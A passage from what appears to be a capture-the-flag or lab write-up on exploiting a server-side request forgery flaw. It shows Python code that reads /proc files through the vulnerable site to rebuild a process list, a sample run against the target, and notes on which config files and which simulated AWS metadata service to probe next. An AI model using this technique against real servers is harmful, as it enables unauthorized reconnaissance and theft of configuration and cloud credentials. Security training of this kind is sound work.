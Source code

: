 ``` python
                # cmdline is NULL separated
                cmdline = cmdline.replace('\x00', ' ')

                for line in fetch(f"/proc/{pid}/status").split('\n')[:-1]:
                    line = line.split()
                    if line[0] == 'PPid:':
                        ppid = line[1]
                    elif line[0] == 'Uid:':
                        uid = line[1]
                print(f'{users[uid]:<8}{pid:>5}{ppid:>5} {cmdline}')
        print()
```

Running this against the website returns a picture of the system environment:

``` shell-session
ssrf> ps
UID       PID PPID CMD
root        1    0 /usr/bin/python2 /usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
root        8    1 /bin/sh /opt/gonginx.sh
root        9    1 php-fpm: master process (/etc/php7/php-fpm.conf)
root       14    1 /bin/sh /opt/imds/imds.sh
root       22    8 nginx: master process nginx -g daemon off;
root       24   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
nginx      25   22 nginx: worker process
root       26   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       27   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       28   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       29   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       32   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
root       36   14 /opt/imds/ec2-metadata -c /opt/imds/config.json
nobody    118    9 php-fpm: pool www
nobody    119    9 php-fpm: pool www
nobody    120    9 php-fpm: pool www

ssrf>
```

From this list, we know a number of things:

- The system is using [`supervisord`](http://supervisord.org/) as it's
`init` process instead of a full control system such as `systemd` or
`/sbin/init`. `supervisord` is typically used in containers to keep the
resource usage small.
- The web server is [`nginx`](https://nginx.org/), with [PHP](https://www.php.net/) support provided by [PHP-FPM](https://www.php.net/manual/en/install.fpm.php)
- There is an interesting process: `/opt/imds/ec2-metadata`. From the name, this is
probably providing a simulated AWS meta-data service.
- We also now have some config files to pull from the server: `/opt/gonginx.sh`, `/opt/imds/imds.sh`, `/opt/imds/config.json`, `/etc/php7/php-fpm.conf`, and `supervisord.conf`

## Replicating `netstat`
